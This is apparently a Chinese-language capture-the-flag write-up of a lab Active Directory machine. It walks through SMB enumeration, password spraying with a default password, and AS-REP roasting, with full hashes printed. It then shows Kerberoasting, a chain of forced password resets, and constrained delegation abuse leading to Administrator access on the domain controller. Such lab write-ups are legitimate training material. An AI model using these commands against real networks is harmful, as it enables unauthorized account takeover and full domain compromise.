## 初始信息

已知IP:10.10.92.51

## 信息收集与初始访问

### 端口扫描

```bash
nmap  -sS -T4 -A 10.10.92.51
```





根据扫描结果可以知道这是一台Windows Server，直接盯上我们的常客SMB

### SMB枚举

smbmap扫一下有没有匿名用户

```bash
smbmap.py -u "anonymous" -H 10.10.92.51
```



发现了`Data`目录有读写权限，`IPC$`目录有读权限。





通过文本文件我们能得知这个新员工的密码是`ResetMe123!`，而且根据密码内容，这可能是系统的默认密码。



通过浏览其中的pdf文件我们能够推断出txt文件可能是一个模板文件，用于将`<User>`替换成用户名后渲染到pdf的这一页中。

所以根据内容已经所以接下来的新思路就是枚举所有用户名，尝试使用默认密码进行登录。

### 用户枚举

```bash
crackmapexec smb 10.10.92.51 -u "anonymous" -d thm.local -p '' --rid-brute >> a.txt
```



```bash
cat a.txt| cut -d '\' -f 2 | grep SidTypeUser | awk '{print $1}' > usernames.txt
```



### 密码喷射

```bash
crackmapexec smb 10.10.92.51 -u usernames.txt -p 'ResetMe123!'
```



可以发现，目前只有pdf中的用户`LILY_ONEILL`未修改默认密码。

可惜的是通过`LILY_ONEILL`无法获取到shell

## 横向移动与权限提升

扫描开启了 **“无需预认证”**的账户

```bash
apt install python3-impacket
```

### Kerberos AS-REP Roasting攻击

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass 'thm.corp/' -dc-ip 10.10.92.51 -request -usersfile usernames.txt
```



发现三个TGT

```
$krb5asrep$23$ERNESTO_SILVA@THM.CORP:6a45925477f99879b8055888ce6bca96$927fb698caac41a10e1023638d035d9115ad11f93a0b21cd4d1b66d9993da62dca5a0d85cda5e1ffd24d769510738c4948b7e482690ba002d0768b8acf8fc22356f161703fd9fe8b5aa701463436625204a4a716bb914784316c26700bfb27a80040ebbbdb3580ccd91e6e130f79481e6d6717ab79b2c1d325bffb4c185876832b950430cee0939edd333e90a0500327bed3284539f0874f548c7b3c81bc0c18d7f922b32982178225a54681e949a3a041795c7e3949f7617e0e665cef645ade4b7dab1fb71ca5ed6e5dc81a3bec792583c111312ff39a745e4c43a9e41d8f9a269b5a1f

$krb5asrep$23$TABATHA_BRITT@THM.CORP:e5a3c8465c0d6fdfa0b6b31c2ea1dfc8$99b7065eeb90ff423ad65e55de27d48fbc36fad77f9dcf4dffc9fcd6347772b9f9903b676512d551c7e565b2be9c192cff0ded60627346d58d500b5d923832d84fdab6da3ec6e03f0ee7ee81b5f54f37916f9aca5eefd5f8ad6fac06147b254b00a459986ad76e52c9a33131891e4984a2fe01c9c2a3def7feee6bf2919b28299fcfa7c932939b2fcfba66a2d5a0217c74f04360d4f2913d4a59a6d52addd6540963c814ed60b72ddcc208aa3beae9d0c37ee75f04a52267b0a27f7a64071cad5a708cb3a786dd8a01a5a41491f724a34856351a49d221c863c93c19a9d1a7df4cea6ae2

$krb5asrep$23$LEANN_LONG@THM.CORP:45cb306670d80c559c718a645b2fecf7$1e48fc282e120d5e78de9644784b6c10b3ef3adf6849bcaae394b333cb3809931783ba62fc40adab997ee0a393f404eddfd4f3256c57edc22e36ddcbcf4f06611170a954f19954ef0650a2306d36c3f67306cb590aa902478adfa9b84ab8de59d29b74c15de0c06aec5a1c3a20b3d6c762634f3d363e68229d9af1dd2bbb15dc1ebee78991a605c509c61b0df0b1034e84261ee53ded8919293214fcf679f4aa90587699f8343fa0852340ede08f095cce71c3043c245e74ec3aeb55d8f268d0648b6cb6c722e01f3e494240b5bef183dd4f1de1634e9dc526a05a7080f2c08311a79336
```

爆破出一个密码



```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py "thm.corp/TABATHA_BRITT:marlboro(1985)" -dc-ip 10.10.92.51 -request -outputfile SPN.hashes
```



但可惜的是TABATHA_BRITT也不可用。

### bloodhound权限分析

```bash
bloodhound-python -d THM.corp -u 'TABATHA_BRITT' -p 'marlboro(1985)' -ns 10.10.92.51 -c all
```



### 通过用户枚举域中信息

从此位置起ip变更为`10.10.76.184`



将收集到的数据导入到`bloodhood`中

检查`AS-REQ Roastable`用户



选中`TABATHA_BRITT`节点，Node info->OUTBOUND CONTROL RIGHTS->Transitive Object Control







可见约束委派被配置为允许委派到域控制器的 **CIFS** 服务，所以我们获取到`DARLA_WINTERS`账户之后即可获取域控权限。

## 约束委派攻击

### 密码重置操作链

```text
TABATHA_BRITT
└─→ GenericAll → SHAWNA_BRAY
    └─→ ForceChangePassword → CRUZ_HALL
        └─→ ForceChangePassword → DARLA_WINTERS
            └─→ 约束委派 → Domain Controller (CIFS)
```

由于`TABATHA_BRITT`有`SHAWNA_BRAY`的`GenericAll`权限，所以我们可以用其重置`SHAWNA_BRAY`的密码

```bash
net rpc password "SHAWNA_BRAY" "QWER@1234" -U "THM.CORP"/"TABATHA_BRITT"%"marlboro(1985)" -S "10.10.76.184"
crackmapexec smb 10.10.76.184 -u 'SHAWNA_BRAY' -p 'QWER@1234'
```



`SHAWNA_BRAY`具有`ForceChangePassword`权限

```bash
net rpc password 'CRUZ_HALL' 'QWER@1234' -U 'thm.corp'/'SHAWNA_BRAY'%'QWER@1234' -S 10.10.76.184
crackmapexec smb 10.10.76.184 -u 'CRUZ_HALL' -p 'QWER@1234'
```



`CRUZ_HALL`也具有`ForceChangePassword`权限

```bash
net rpc password 'DARLA_WINTERS' 'QWER@1234' -U 'thm.corp'/'CRUZ_HALL'%'QWER@1234' -S 10.10.76.184
crackmapexec smb 10.10.76.184 -u 'DARLA_WINTERS' -p 'QWER@1234'
```



### 约束委派利用

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn cifs/HayStack.thm.corp -impersonate Administrator THM.corp/DARLA_WINTERS
```



```bash
export KRB5CCNAME=Administrator.ccache
```

### 域控接管


这里有个小坑,`haystack.thm.corp`应该添加到hosts文件中,`wmiexec`似乎没有参数能够指定域控ip
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass Administrator@haystack.thm.corp
```


